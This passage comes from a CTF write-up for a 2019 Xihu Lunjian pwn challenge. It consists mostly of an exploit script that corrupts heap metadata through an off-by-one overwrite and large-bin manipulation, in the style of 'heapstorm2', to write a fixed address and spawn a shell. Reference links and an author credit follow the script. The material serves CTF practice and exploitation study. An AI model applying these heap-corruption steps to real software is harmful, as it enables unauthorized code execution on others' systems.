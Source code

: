 create( 0x528) #1

create( 0xf8) #2

create( 0x28) #3

create( 0x28) #4

create( 0x518) #5

create( 0xf8) #6

create( 0x28) #7

delete( 0)

edit( 1, 'A'* 0x520+p64( 0x560))

delete( 2)

create( 0x38) #0

create( 0x610) #2

delete( 4)

edit( 5, 'A'* 0x510+p64( 0x550))

delete( 6)

create( 0x38) #4

create( 0x600) #6

delete( 6)

delete( 2)

create( 0x610) #2

edit( 5,p64( 0)+p64( 0x611)+p64( 0)+p64( 0xABCD0100-0x20+ 8)+p64( 0)+p64( 0xABCD0100-0x38-5))

delete( 2)

edit( 1,p64( 0)+p64( 0x621)+p64( 0)+p64( 0xABCD0100-0x20))

create( 0x48) #2

gdb.attach(p)

edit( 2,p64( 0)* 2+ 'A'* 0x30)

getshell()

p.interactive()

Reference：

http://eternalsakura13.com/2018/04/03/heapstorm2/

https://blog.csdn.net/weixin_40850881/article/details/80293143

文：V1NKe

链接：http://v1nke.win/2019/04/09/2019-%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91-PWN/

END

责任编辑：